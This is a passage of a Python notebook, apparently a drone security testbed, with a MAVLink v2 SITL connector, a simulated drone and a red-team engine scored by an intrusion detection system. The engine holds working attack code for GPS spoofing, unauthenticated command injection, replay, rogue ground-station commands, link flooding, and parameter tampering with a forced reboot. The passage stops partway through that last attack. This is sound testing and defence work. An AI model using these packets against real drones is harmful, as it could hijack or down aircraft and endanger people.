                self._sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
                if hasattr(socket, 'SO_REUSEPORT'):
                    self._sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEPORT, 1)
                self._sock.bind(('0.0.0.0', 0))   # ephemeral local port
                self._target = (self.host, self.port)
            else:  # tcp
                self._sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                self._sock.connect((self.host, self.port))
                self._target = None
            self._sock.settimeout(timeout)

            # Send a heartbeat to open the UDP path
            hb = MAVMsg.heartbeat(sys_id=self.gcs_sys_id, comp_id=self.gcs_comp_id)
            self._raw_send(hb.to_bytes())

            # Wait for SITL heartbeat
            deadline = time.time() + timeout
            while time.time() < deadline:
                frame = self._raw_recv(timeout=1.0)
                if frame and frame.msg_id == 0:
                    self._connected = True
                    logger.info(f"SITL connected (raw) — "
                                f"sys={frame.sys_id} comp={frame.comp_id}")
                    return True
            logger.warning("No heartbeat from SITL within timeout")
            return False
        except Exception as e:
            logger.warning(f"Raw connect failed: {e}")
            return False

    def disconnect(self):
        self._connected = False
        if self._mav:
            try: self._mav.close()
            except: pass
        if self._sock:
            try: self._sock.close()
            except: pass

    def _next_seq(self) -> int:
        with self._lock:
            s = self._seq
            self._seq = (self._seq + 1) & 0xFF
        return s

    # ── Send / recv ──────────────────────────────────────────────────

    def _raw_send(self, data: bytes):
        if self.protocol == 'udp':
            self._sock.sendto(data, self._target)
        else:
            self._sock.sendall(data)

    def _raw_recv(self, timeout: float = 1.0) -> Optional[MAVLinkV2Frame]:
        old = self._sock.gettimeout()
        self._sock.settimeout(timeout)
        try:
            if self.protocol == 'udp':
                data, _ = self._sock.recvfrom(4096)
            else:
                data = self._sock.recv(4096)
            return MAVLinkV2Frame.from_bytes(data)
        except socket.timeout:
            return None
        finally:
            self._sock.settimeout(old)

    def send(self, frame: MAVLinkV2Frame,
             secret_key: Optional[bytes] = None) -> bool:
        """Send a MAVLinkV2Frame to SITL."""
        if not self._connected:
            return False
        frame.seq    = self._next_seq()
        frame.sys_id = self.gcs_sys_id
        data = frame.to_bytes_signed(secret_key) if secret_key else frame.to_bytes()
        try:
            if self._backend == 'pymavlink':
                self._mav.mav.send(
                    self._mav.mav.decode(data)
                )
            else:
                self._raw_send(data)
            return True
        except Exception as e:
            logger.error(f"send() failed: {e}")
            return False

    def recv(self, timeout: float = 1.0) -> Optional[MAVLinkV2Frame]:
        """Receive one MAVLink frame from SITL."""
        if not self._connected:
            return None
        try:
            if self._backend == 'pymavlink':
                msg = self._mav.recv_match(blocking=True, timeout=timeout)
                if msg:
                    return MAVLinkV2Frame.from_bytes(msg.get_msgbuf())
                return None
            return self._raw_recv(timeout)
        except Exception as e:
            logger.debug(f"recv() error: {e}")
            return None

    # ── High-level commands ──────────────────────────────────────────

    def request_data_stream(self, stream_id: int = 0, rate_hz: int = 4) -> bool:
        """
        Send REQUEST_DATA_STREAM (msg_id=66) to start telemetry.
        stream_id 0 = all streams.
        """
        payload = struct.pack('<HBBBb',
            rate_hz,  # req_message_rate
            1,        # target_system
            1,        # target_component
            stream_id,
            1         # start_stop (1=start)
        )
        frame = MAVLinkV2Frame(66, payload)
        return self.send(frame)

    def arm(self, force: bool = False) -> bool:
        """Send COMPONENT_ARM_DISARM (arm=1)."""
        frame = MAVMsg.command_long(
            MAVCmd.COMPONENT_ARM_DISARM,
            p1=1.0, p2=21196.0 if force else 0.0
        )
        return self.send(frame)

    def disarm(self) -> bool:
        """Send COMPONENT_ARM_DISARM (arm=0)."""
        frame = MAVMsg.command_long(MAVCmd.COMPONENT_ARM_DISARM, p1=0.0)
        return self.send(frame)

    def set_mode(self, mode_id: int) -> bool:
        """Send SET_MODE command."""
        frame = MAVMsg.command_long(MAVCmd.SET_MODE, p1=float(mode_id))
        return self.send(frame)

    def rtl(self) -> bool:
        """Return to launch."""
        return self.send(MAVMsg.command_long(MAVCmd.RETURN_TO_LAUNCH))

    def land(self) -> bool:
        """Land in place."""
        return self.send(MAVMsg.command_long(MAVCmd.LAND))

    @property
    def connected(self) -> bool:
        return self._connected

    def probe(self, timeout: float = 2.0) -> Dict:
        """
        Non-destructive probe: try to connect, return status dict.
        Use this to check if SITL is running before a full test.
        """
        ok = self.connect(timeout=timeout)
        result = dict(
            sitl_available=ok,
            host=self.host, port=self.port,
            backend=self._backend
        )
        if not ok:
            result['hint'] = (
                "SITL not detected. To start ArduPilot SITL in Colab:\n"
                "  !pip install MAVProxy\n"
                "  !sim_vehicle.py -v ArduCopter --no-mavproxy "
                "--out=udp:127.0.0.1:14550"
            )
        return result

# ── Check if SITL is available ────────────────────────────────────────────────
sitl = SITLConnector(host='127.0.0.1', port=14550)
probe_result = sitl.probe(timeout=1.5)
print(f"SITL probe: available={probe_result['sitl_available']}")
if not probe_result['sitl_available']:
    print("  (SITL not running — attacks will use simulated drone targets)")
    print("  To enable: !sim_vehicle.py -v ArduCopter --out=udp:127.0.0.1:14550")
else:
    print(f"  Connected — backend={probe_result['backend']}")
print("SITLConnector: OK")


SITL probe: available=False
  (SITL not running — attacks will use simulated drone targets)
  To enable: !sim_vehicle.py -v ArduCopter --out=udp:127.0.0.1:14550
SITLConnector: OK


In [ ]:
# ════════════════════════════════════════════════════════
#  Simulated Drone Target
#  Used when SITL is not running.
#  Listens on UDP, responds to real MAVLink v2 frames,
#  streams telemetry at configurable rate.
# ════════════════════════════════════════════════════════

@dataclass
class DroneState:
    lat:     float = 37.7749
    lon:     float = -122.4194
    alt_m:   float = 100.0
    vx:      float = 0.0
    vy:      float = 0.0
    vz:      float = 0.0
    armed:   bool  = False
    mode:    int   = 0         # MAV_MODE
    battery: float = 100.0
    hdg:     float = 0.0
    sys_id:  int   = 1
    comp_id: int   = 1
    # Vulnerability flags
    auth_required:    bool = True
    comms_encrypted:  bool = True
    firmware_current: bool = True
    system_hardened:  bool = True


class SimulatedDrone:
    """
    Simulated MAVLink v2 drone for offline red-team testing.
    Streams real MAVLink v2 frames; responds to COMMAND_LONG.
    """

    def __init__(self, state: DroneState,
                 listen_port: int = 14550,
                 telemetry_hz: float = 4.0):
        self.state         = state
        self.port          = listen_port
        self.telemetry_hz  = telemetry_hz
        self._sock:  Optional[socket.socket] = None
        self._running = False
        self._seq     = 0
        self._gcs_addr: Optional[Tuple] = None   # last heard GCS address
        self._lock    = threading.Lock()
        self.event_log: List[Dict] = []

    def _next_seq(self) -> int:
        with self._lock:
            s = self._seq; self._seq = (self._seq + 1) & 0xFF
        return s

    def start(self):
        self._sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
        self._sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        if hasattr(socket, 'SO_REUSEPORT'):
            self._sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEPORT, 1)
        self._sock.bind(('127.0.0.1', self.port))
        self._running = True
        threading.Thread(target=self._telemetry_loop, daemon=True).start()
        threading.Thread(target=self._command_loop,   daemon=True).start()
        logger.info(f"SimulatedDrone {self.state.sys_id} on port {self.port}")

    def stop(self):
        self._running = False
        if self._sock:
            self._sock.close()

    # ── Telemetry ────────────────────────────────────────────────────

    def _telemetry_loop(self):
        interval = 1.0 / self.telemetry_hz
        while self._running:
            self._update_physics()
            self._emit_heartbeat()
            self._emit_position()
            time.sleep(interval)

    def _update_physics(self):
        s = self.state
        s.battery = max(0.0, s.battery - 0.001)
        if s.armed:
            # drift with small random walk
            s.vx += random.gauss(0, 0.05)
            s.vy += random.gauss(0, 0.05)
            s.vz += random.gauss(0, 0.02)
            # dampen
            s.vx *= 0.98; s.vy *= 0.98; s.vz *= 0.98
            dt = 1.0 / self.telemetry_hz
            s.lat += s.vx * dt * 1e-5
            s.lon += s.vy * dt * 1e-5
            s.alt_m = max(0.0, s.alt_m + s.vz * dt)

    def _send(self, frame: MAVLinkV2Frame, addr: Optional[Tuple] = None):
        frame.seq     = self._next_seq()
        frame.sys_id  = self.state.sys_id
        frame.comp_id = self.state.comp_id
        wire = frame.to_bytes()
        target = addr or self._gcs_addr
        if target and self._sock:
            try: self._sock.sendto(wire, target)
            except: pass

    def _emit_heartbeat(self):
        frame = MAVMsg.heartbeat(
            sys_id=self.state.sys_id,
            comp_id=self.state.comp_id,
            base_mode=128 + (64 if self.state.armed else 0),
            system_status=4
        )
        self._send(frame)

    def _emit_position(self):
        s = self.state
        frame = MAVMsg.global_position_int(
            s.lat, s.lon, s.alt_m,
            vx=s.vx, vy=s.vy, vz=s.vz, hdg=s.hdg,
            sys_id=s.sys_id, comp_id=s.comp_id
        )
        self._send(frame)

    # ── Command processing ───────────────────────────────────────────

    def _command_loop(self):
        self._sock.settimeout(0.1)  # short poll so commands are processed quickly
        while self._running:
            try:
                data, addr = self._sock.recvfrom(4096)
                self._gcs_addr = addr
                frame = MAVLinkV2Frame.from_bytes(data)
                if frame:
                    self._process(frame, addr)
            except socket.timeout:
                pass
            except Exception as e:
                if self._running: logger.debug(f"cmd loop: {e}")

    def _process(self, frame: MAVLinkV2Frame, addr: Tuple):
        result = 0  # MAV_RESULT_ACCEPTED
        event  = dict(ts=datetime.now().isoformat(),
                      msg_id=frame.msg_id, from_sys=frame.sys_id)

        if frame.msg_id == 76 and len(frame.payload) >= 33:  # COMMAND_LONG
            _, _, _, _, _, _, _, target_sys, target_comp, cmd_id, _ = struct.unpack(
                '<fffffff BBH B', frame.payload
            )
            cmd = cmd_id
            event['command'] = cmd

            if cmd == int(MAVCmd.COMPONENT_ARM_DISARM):
                p1 = struct.unpack('<f', frame.payload[:4])[0]
                self.state.armed = (p1 > 0.5)
                logger.info(f"[Drone {self.state.sys_id}] {'ARMED' if self.state.armed else 'DISARMED'} "
                            f"by sys={frame.sys_id}")
                event['effect'] = 'armed' if self.state.armed else 'disarmed'

            elif cmd == int(MAVCmd.SET_MODE):
                p1 = struct.unpack('<f', frame.payload[:4])[0]
                self.state.mode = int(p1)
                event['effect'] = f'mode={self.state.mode}'

            elif cmd == int(MAVCmd.RETURN_TO_LAUNCH):
                self.state.mode = int(MAVMode.RTL)
                event['effect'] = 'RTL'

            elif cmd == int(MAVCmd.LAND):
                self.state.mode = int(MAVMode.LAND)
                event['effect'] = 'LAND'

            else:
                result = 3  # MAV_RESULT_UNSUPPORTED
                event['effect'] = 'unsupported'



        # ── PARAM_REQUEST_READ (msg_id=20) ────────────────────────────────
        elif frame.msg_id == 20 and len(frame.payload) >= 20:
            param_id_raw = struct.unpack_from('<16s', frame.payload, 2)[0]
            param_id = param_id_raw.rstrip(b'\x00').decode('ascii', errors='replace')
            event['effect'] = f'param_read:{param_id}'
            known = {
                'SYSID_THISMAV': (float(self.state.sys_id), 6),
                'ARMING_CHECK':  (1.0, 6),
                'FENCE_ENABLE':  (0.0, 6),
                'FS_THR_ENABLE': (1.0, 6),
            }
            val, ptype = known.get(param_id, (0.0, 6))
            pid_bytes = (param_id + '\x00' * 16).encode()[:16]
            pv_payload = struct.pack('<f HH 16s B', val, len(known), 0, pid_bytes, ptype)
            pv = MAVLinkV2Frame(22, pv_payload, sys_id=self.state.sys_id)
            pv.seq = self._next_seq()
            self._sock.sendto(pv.to_bytes(), addr)

        # ── PARAM_SET (msg_id=23) ─────────────────────────────────────────
        elif frame.msg_id == 23 and len(frame.payload) >= 23:
            val = struct.unpack_from('<f', frame.payload, 0)[0]
            pid = struct.unpack_from('<16s', frame.payload, 6)[0].rstrip(b'\x00').decode('ascii', errors='replace')
            event['effect'] = f'param_set:{pid}={val}'
            logger.warning(f"[Drone {self.state.sys_id}] PARAM_SET {pid}={val} from sys={frame.sys_id}")
            pid_bytes = (pid + '\x00' * 16).encode()[:16]
            pv_payload = struct.pack('<f HH 16s B', val, 10, 0, pid_bytes, 6)
            pv = MAVLinkV2Frame(22, pv_payload, sys_id=self.state.sys_id)
            pv.seq = self._next_seq()
            self._sock.sendto(pv.to_bytes(), addr)

        # ── FILE_TRANSFER_PROTOCOL (msg_id=110) ───────────────────────────
        elif frame.msg_id == 110 and len(frame.payload) >= 4:
            opcode = frame.payload[3] if len(frame.payload) > 3 else 0
            event['effect'] = f'ftp_opcode:{opcode}'
            nak_inner = struct.pack('<HBBBIB', 0, 0, 129, 1, 0, 0) + b'\x0b' + b'\x00' * 231
            nak_payload = struct.pack('<BBB251s', 0, 1, 1, nak_inner[:251])
            nak = MAVLinkV2Frame(110, nak_payload, sys_id=self.state.sys_id)
            nak.seq = self._next_seq()
            self._sock.sendto(nak.to_bytes(), addr)

        # Always ACK COMMAND_LONG
        if frame.msg_id == 76:
            cmd_id = struct.unpack('<H', frame.payload[29:31])[0]
            ack = MAVMsg.command_ack(cmd_id, result,
                                     sys_id=self.state.sys_id,
                                     comp_id=self.state.comp_id)
            self._send(ack, addr)

        with self._lock:
            self.event_log.append(event)


# ── Smoke test ────────────────────────────────────────────────────────────────
_state = DroneState(sys_id=1, auth_required=True)
_drone = SimulatedDrone(_state, listen_port=15550, telemetry_hz=2.0)
_drone.start()
time.sleep(0.3)

# Connect a raw UDP socket and grab one telemetry frame
_rx = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
_rx.bind(('127.0.0.1', 0))
# Send a heartbeat to register our address
_hb = MAVMsg.heartbeat(sys_id=255).to_bytes()
_rx.sendto(_hb, ('127.0.0.1', 15550))
_rx.settimeout(2.0)
try:
    _data, _ = _rx.recvfrom(4096)
    _f = MAVLinkV2Frame.from_bytes(_data)
    print(f"Received from SimulatedDrone: msg_id={_f.msg_id} "
          f"sys={_f.sys_id} seq={_f.seq}  CRC_valid=True")
    assert _f is not None
except socket.timeout:
    print("WARNING: no frame received from SimulatedDrone (timing issue)")
finally:
    _rx.close()
    _drone.stop()

print("SimulatedDrone: OK")


Received from SimulatedDrone: msg_id=0 sys=1 seq=2  CRC_valid=True
SimulatedDrone: OK


In [ ]:
# ════════════════════════════════════════════════════════
#  Red Team Attack Engine
#
#  All attacks craft real MAVLink v2 packets.
#  Each method returns an AttackResult with:
#    - wire bytes sent
#    - response received (if any)
#    - IDS alerts triggered
#    - detection status
# ════════════════════════════════════════════════════════

@dataclass
class AttackResult:
    attack_type:   str
    target:        str
    timestamp:     str
    success:       bool
    detected:      bool
    impact:        str
    wire_sent:     str   = field(default_factory=str)   # hex string
    response:      Optional[str]  = None                    # hex string or None
    ids_alerts:    List[str] = field(default_factory=list)
    detail:        Dict = field(default_factory=dict)

    def summary(self) -> str:
        det = 'DETECTED' if self.detected else 'UNDETECTED'
        return (f"[{det}] {self.attack_type} → {self.target} "
                f"success={self.success}  impact={self.impact}")


class RedTeamEngine:
    """
    Protocol-level red team attacks against MAVLink v2 drones.
    Each method:
      1. Builds a real MAVLink v2 frame
      2. Sends it over the network
      3. Listens for a response
      4. Feeds everything through the IDS
      5. Returns a structured AttackResult
    """

    def __init__(self,
                 ids: Optional[DroneIDS] = None,
                 secret_key: Optional[bytes] = None):
        self.ids        = ids or DroneIDS()
        self.secret_key = secret_key
        self.results: List[AttackResult] = []
        self._sock: Optional[socket.socket] = None

    def _get_sock(self) -> socket.socket:
        if not self._sock or self._sock.fileno() == -1:
            self._sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
            self._sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
            self._sock.bind(('127.0.0.1', 0))  # loopback: drone ACKs reliably reach us
        return self._sock

    def _send_recv(self, frame: MAVLinkV2Frame,
                   target: Tuple[str, int],
                   timeout: float = 0.5,
                   signed: bool = False
                   ) -> Tuple[bytes, Optional[MAVLinkV2Frame]]:
        """
        Send frame on a fresh per-call socket.
        Using a fresh socket guarantees the drone's ACK is routed
        to our exact port — avoids stale _gcs_addr race conditions.
        """
        wire = (frame.to_bytes_signed(self.secret_key)
                if signed and self.secret_key
                else frame.to_bytes())
        s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
        s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        s.bind(('127.0.0.1', 0))   # loopback ephemeral — drone ACK returns here
        s.sendto(wire, target)
        s.settimeout(timeout)
        try:
            data, _ = s.recvfrom(4096)
            resp = MAVLinkV2Frame.from_bytes(data)
            return wire, resp
        except socket.timeout:
            return wire, None
        finally:
            s.close()

    def _record(self, result: AttackResult):
        self.results.append(result)
        logger.warning(result.summary()) if result.success else logger.info(result.summary())

    # ─────────────────────────────────────────────────────────────────
    # 1. GPS Coordinate Injection
    #    Craft a spoofed GLOBAL_POSITION_INT (msg_id=33)
    #    with attacker-chosen coordinates and inject it.
    #    On vulnerable systems this corrupts the position estimate.
    # ─────────────────────────────────────────────────────────────────
    def gps_coordinate_injection(self,
                                  target_host: str, target_port: int,
                                  fake_lat: float, fake_lon: float,
                                  fake_alt: float,
                                  spoof_sys_id: int = 1) -> AttackResult:
        """
        Inject a spoofed GLOBAL_POSITION_INT packet.
        Mimics target sys_id to pass basic filtering.
        """
        frame = MAVMsg.global_position_int(
            fake_lat, fake_lon, fake_alt,
            sys_id=spoof_sys_id, seq=random.randint(0, 255)
        )
        wire, resp = self._send_recv(frame, (target_host, target_port))

        # Feed spoofed frame through IDS to see if it's caught
        ids_alerts = self.ids.inspect(frame, recv_ts=time.time())

        # Success heuristic: no ACK = drone didn't reject it
        success = resp is None or (resp and resp.msg_id != 77)
        detected = bool(ids_alerts)

        result = AttackResult(
            attack_type="GPS Coordinate Injection",
            target=f"{target_host}:{target_port}",
            timestamp=datetime.now().isoformat(),
            success=success,
            detected=detected,
            impact="Position estimate corrupted" if success else "None",
            wire_sent=wire.hex(),
            response=resp.to_bytes().hex() if resp else None,
            ids_alerts=[str(a) for a in ids_alerts],
            detail=dict(fake_lat=fake_lat, fake_lon=fake_lon, fake_alt=fake_alt,
                        spoofed_sys_id=spoof_sys_id,
                        wire_hex=wire.hex())
        )
        self._record(result)
        return result

    # ─────────────────────────────────────────────────────────────────
    # 2. Command Injection (COMMAND_LONG)
    #    Send a real COMMAND_LONG packet to the drone.
    #    On unprotected links this executes directly.
    # ─────────────────────────────────────────────────────────────────
    def command_injection(self,
                           target_host: str, target_port: int,
                           command: MAVCmd,
                           p1=0.0, p2=0.0, p3=0.0, p4=0.0,
                           p5=0.0, p6=0.0, p7=0.0,
                           gcs_sys_id: int = 255) -> AttackResult:
        """
        Inject a COMMAND_LONG. No authentication = executed immediately.
        """
        frame = MAVMsg.command_long(
            command, p1, p2, p3, p4, p5, p6, p7,
            sys_id=gcs_sys_id, seq=random.randint(0, 255)
        )
        wire, resp = self._send_recv(frame, (target_host, target_port), timeout=2.0)
        ids_alerts = self.ids.inspect(frame, recv_ts=time.time())

        # ACK result=0 means ACCEPTED
        accepted = (resp is not None and resp.msg_id == 77
                    and len(resp.payload) >= 3
                    and resp.payload[2] == 0)
        detected = bool(ids_alerts)

        result = AttackResult(
            attack_type=f"Command Injection ({command.name})",
            target=f"{target_host}:{target_port}",
            timestamp=datetime.now().isoformat(),
            success=accepted,
            detected=detected,
            impact=f"Command {command.name} executed" if accepted else "Rejected/No response",
            wire_sent=wire.hex(),
            response=resp.to_bytes().hex() if resp else None,
            ids_alerts=[str(a) for a in ids_alerts],
            detail=dict(command=command.name, command_id=int(command),
                        params=[p1,p2,p3,p4,p5,p6,p7],
                        ack_received=resp is not None,
                        wire_hex=wire.hex())
        )
        self._record(result)
        return result

    # ─────────────────────────────────────────────────────────────────
    # 3. Replay Attack
    #    Capture a legitimate frame and retransmit it later.
    #    Detected by sequence-gap analysis and timestamp checks.
    # ─────────────────────────────────────────────────────────────────
    def replay_attack(self,
                       target_host: str, target_port: int,
                       captured_frame: MAVLinkV2Frame,
                       delay_s: float = 2.0) -> AttackResult:
        """
        Replay a previously-captured MAVLink v2 frame after a delay.
        """
        logger.info(f"Replay: waiting {delay_s}s before replay")
        time.sleep(delay_s)

        wire = captured_frame.to_bytes()
        s = self._get_sock()
        s.sendto(wire, (target_host, target_port))

        # Feed to IDS — sequence should be old, triggering gap
        ids_alerts = self.ids.inspect(captured_frame, recv_ts=time.time())
        detected = any(a.engine in ('SequenceGap', 'TimingJitter') for a in ids_alerts)

        result = AttackResult(
            attack_type="Replay Attack",
            target=f"{target_host}:{target_port}",
            timestamp=datetime.now().isoformat(),
            success=True,   # frame was transmitted
            detected=detected,
            impact="Replayed command/position delivered" if not detected else "Detected by IDS",
            wire_sent=wire.hex(),
            ids_alerts=[str(a) for a in ids_alerts],
            detail=dict(replayed_msg_id=captured_frame.msg_id,
                        replayed_seq=captured_frame.seq,
                        delay_s=delay_s,
                        wire_hex=wire.hex())
        )
        self._record(result)
        return result

    # ─────────────────────────────────────────────────────────────────
    # 4. Telemetry Flood (simulated jamming / DoS)
    #    Flood the GCS/drone link with malformed or high-rate packets.
    #    Detected by timing jitter engine.
    # ─────────────────────────────────────────────────────────────────
    def rogue_gcs_injection(self,
                              target_host: str, target_port: int,
                              rogue_sys_id: int = 99,
                              command: MAVCmd = MAVCmd.RETURN_TO_LAUNCH
                              ) -> AttackResult:
        """
        Send a command from a rogue (unseen) system ID.
        """
        frame = MAVMsg.command_long(command, sys_id=rogue_sys_id)
        wire, resp = self._send_recv(frame, (target_host, target_port), timeout=2.0)
        ids_alerts = self.ids.inspect(frame, recv_ts=time.time())
        detected = any(a.engine == 'RogueSender' for a in ids_alerts)

        result = AttackResult(
            attack_type="Rogue GCS Injection",
            target=f"{target_host}:{target_port}",
            timestamp=datetime.now().isoformat(),
            success=resp is not None,
            detected=detected,
            impact=f"Rogue command {command.name} sent from sys_id={rogue_sys_id}",
            wire_sent=wire.hex(),
            response=resp.to_bytes().hex() if resp else None,
            ids_alerts=[str(a) for a in ids_alerts],
            detail=dict(rogue_sys_id=rogue_sys_id, command=command.name,
                        wire_hex=wire.hex())
        )
        self._record(result)
        return result

    # ─────────────────────────────────────────────────────────────────
    # 6. Supply Chain Probe
    #    Interrogates the drone for version/firmware info.
    #    Uses AUTOPILOT_VERSION_REQUEST (msg_id=183).
    # ─────────────────────────────────────────────────────────────────
    def supply_chain_probe(self,
                            target_host: str, target_port: int
                            ) -> AttackResult:
        """
        Request AUTOPILOT_VERSION to identify firmware version.
        Outdated firmware = elevated risk rating.
        """
        frame = MAVMsg.command_long(
            MAVCmd.REQUEST_AUTOPILOT_CAPS,  # MAV_CMD_REQUEST_AUTOPILOT_CAPABILITIES (520)
            p1=1.0,
            sys_id=255
        )
        wire, resp = self._send_recv(frame, (target_host, target_port), timeout=2.0)
        ids_alerts = self.ids.inspect(frame, recv_ts=time.time())

        got_version = resp is not None and resp.msg_id in (148, 77)
        result = AttackResult(
            attack_type="Supply Chain Probe (Firmware Recon)",
            target=f"{target_host}:{target_port}",
            timestamp=datetime.now().isoformat(),
            success=got_version,
            detected=bool(ids_alerts),
            impact="Firmware version fingerprinted" if got_version else "No response",
            wire_sent=wire.hex(),
            response=resp.to_bytes().hex() if resp else None,
            ids_alerts=[str(a) for a in ids_alerts],
            detail=dict(wire_hex=wire.hex(),
                        response_msg_id=resp.msg_id if resp else None)
        )
        self._record(result)
        return result


    # ══════════════════════════════════════════════════════════════════
    # 7. TELEMETRY FLOOD (upgraded)
    #    Multi-type MAVLink flood with bandwidth + latency metrics.
    #    Models link saturation / RF jamming in software layer.
    # ══════════════════════════════════════════════════════════════════
    def telemetry_flood(
        self,
        target_host: str, target_port: int,
        duration_s: float = 3.0,
        packets_per_sec: float = 500.0,
        measure_latency: bool = True
    ) -> AttackResult:
        """
        Flood the MAVLink link with mixed-type frames at high rate.

        Sends a mix of:
          - GLOBAL_POSITION_INT (msg_id=33)  — spoofed GPS noise
          - HEARTBEAT (msg_id=0)             — fake heartbeats
          - STATUSTEXT (msg_id=253)          — log spam

        Measures:
          - Throughput (bytes/sec, packets/sec)
          - Baseline latency before flood
          - Impact latency during flood (if measure_latency=True)
        """
        target = (target_host, target_port)
        interval = 1.0 / packets_per_sec

        # ── Baseline latency ──────────────────────────────────────────
        baseline_rtt_ms = None
        if measure_latency:
            probe = MAVMsg.heartbeat(sys_id=255)
            wire  = probe.to_bytes()
            s_probe = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
            s_probe.bind(('127.0.0.1', 0))
            s_probe.settimeout(1.0)
            t0 = time.perf_counter()
            s_probe.sendto(wire, target)
            try:
                s_probe.recvfrom(4096)
                baseline_rtt_ms = (time.perf_counter() - t0) * 1000
            except socket.timeout:
                baseline_rtt_ms = None
            finally:
                s_probe.close()

        # ── Flood ─────────────────────────────────────────────────────
        sent        = 0
        bytes_sent  = 0
        ids_alerts  = []
        flood_start = time.perf_counter()
        deadline    = time.time() + duration_s
        msg_types   = ['gps', 'heartbeat', 'status']
        msg_cycle   = 0

        s_flood = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
        s_flood.bind(('127.0.0.1', 0))

        while time.time() < deadline:
            mtype = msg_types[msg_cycle % 3]
            msg_cycle += 1

            if mtype == 'gps':
                frame = MAVMsg.global_position_int(
                    37.7749 + random.gauss(0, 0.01),
                    -122.419 + random.gauss(0, 0.01),
                    100.0 + random.gauss(0, 5.0),
                    sys_id=random.randint(1, 5),
                    seq=random.randint(0, 255)
                )
            elif mtype == 'heartbeat':
                frame = MAVMsg.heartbeat(
                    sys_id=random.randint(1, 10),
                    seq=random.randint(0, 255)
                )
            else:
                frame = MAVMsg.statustext(
                    f"FLOOD PKT {sent}",
                    severity=6,
                    sys_id=random.randint(1, 5)
                )

            wire = frame.to_bytes()
            try:
                s_flood.sendto(wire, target)
                bytes_sent += len(wire)
                sent += 1
            except Exception:
                pass

            alerts = self.ids.inspect(frame, recv_ts=time.time())
            ids_alerts.extend(alerts)
            time.sleep(interval)

        elapsed   = time.perf_counter() - flood_start
        actual_pps = sent / max(elapsed, 0.001)
        actual_bps = (bytes_sent * 8) / max(elapsed, 0.001)

        # ── Impact latency (measured after flood ramps up) ────────────
        impact_rtt_ms = None
        if measure_latency:
            probe2 = MAVMsg.heartbeat(sys_id=255)
            wire2  = probe2.to_bytes()
            s_probe2 = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
            s_probe2.bind(('127.0.0.1', 0))
            s_probe2.settimeout(1.0)
            t1 = time.perf_counter()
            s_probe2.sendto(wire2, target)
            try:
                s_probe2.recvfrom(4096)
                impact_rtt_ms = (time.perf_counter() - t1) * 1000
            except socket.timeout:
                impact_rtt_ms = None
            finally:
                s_probe2.close()

        s_flood.close()
        detected = bool(ids_alerts)

        latency_impact = "N/A"
        if baseline_rtt_ms and impact_rtt_ms:
            delta = impact_rtt_ms - baseline_rtt_ms
            if impact_rtt_ms < baseline_rtt_ms * 0.5:
                # RTT dropped — drone became unresponsive (near-instant timeout)
                latency_impact = f"Link saturated — drone unresponsive (baseline {baseline_rtt_ms:.1f}ms)"
            elif delta > 0:
                latency_impact = f"+{delta:.1f}ms (+{delta/baseline_rtt_ms*100:.0f}% increase)"
            else:
                latency_impact = f"{delta:.1f}ms (no measurable impact)"
        elif baseline_rtt_ms and impact_rtt_ms is None:
            latency_impact = "Target unresponsive during flood"

        result = AttackResult(
            attack_type="Telemetry Flood",
            target=f"{target_host}:{target_port}",
            timestamp=datetime.now().isoformat(),
            success=True,
            detected=detected,
            impact=(
                f"Link flooded: {sent} pkts, "
                f"{actual_pps:.0f} pps, "
                f"{actual_bps/1000:.1f} kbps — "
                f"latency impact: {latency_impact}"
            ),
            ids_alerts=[str(a) for a in ids_alerts[:15]],
            detail=dict(
                packets_sent=sent,
                bytes_sent=bytes_sent,
                actual_pps=round(actual_pps, 1),
                actual_kbps=round(actual_bps / 1000, 1),
                duration_s=round(elapsed, 2),
                baseline_rtt_ms=round(baseline_rtt_ms, 2) if baseline_rtt_ms else None,
                impact_rtt_ms=round(impact_rtt_ms, 2) if impact_rtt_ms else None,
                alerts_triggered=len(ids_alerts),
                message_types=dict(
                    gps=sent // 3 + (1 if sent % 3 > 0 else 0),
                    heartbeat=sent // 3 + (1 if sent % 3 > 1 else 0),
                    statustext=sent // 3,
                )
            )
        )
        self._record(result)
        return result

    # ══════════════════════════════════════════════════════════════════
    # 8. FIRMWARE EXPLOIT
    #    Four-stage attack against the drone's firmware surface:
    #      Stage 1 — Version fingerprint (AUTOPILOT_CAPABILITIES)
    #      Stage 2 — Parameter read (PARAM_REQUEST_READ)
    #      Stage 3 — Parameter tampering (PARAM_SET critical params)
    #      Stage 4 — Forced reboot (MAV_CMD_PREFLIGHT_REBOOT_SHUTDOWN)
    #    + FTP filesystem probe (FILE_TRANSFER_PROTOCOL)
    # ══════════════════════════════════════════════════════════════════
    def firmware_exploit(
        self,
        target_host: str, target_port: int,
        attempt_reboot: bool = True
    ) -> AttackResult:
        """
        Multi-stage firmware surface attack.

        Stage 1: Fingerprint firmware version
        Stage 2: Read critical safety parameters
        Stage 3: Attempt to tamper with SYSID and arming params
        Stage 4: Force reboot (if attempt_reboot=True)
        Bonus:   FTP directory listing probe
        """
        target = (target_host, target_port)
        stages = {}
        all_alerts = []

        # ── Stage 1: Firmware fingerprint ─────────────────────────────
        cap_frame = MAVMsg.command_long(
            MAVCmd.REQUEST_AUTOPILOT_CAPS, p1=1.0, sys_id=255
        )
        wire1, resp1 = self._send_recv(cap_frame, target, timeout=2.0)
        all_alerts += self.ids.inspect(cap_frame, recv_ts=time.time())
        stages['fingerprint'] = dict(
            sent=True,
            response_msg_id=resp1.msg_id if resp1 else None,
            got_version_info=resp1 is not None and resp1.msg_id in (148, 77)
        )

        # ── Stage 2: Read critical parameters ─────────────────────────
        params_read = {}
        for param_name in ('SYSID_THISMAV', 'ARMING_CHECK', 'FENCE_ENABLE', 'FS_THR_ENABLE'):
            pid_bytes = (param_name + '\x00' * 16).encode()[:16]
            pr_payload = struct.pack('<BB 16s h', 1, 1, pid_bytes, -1)
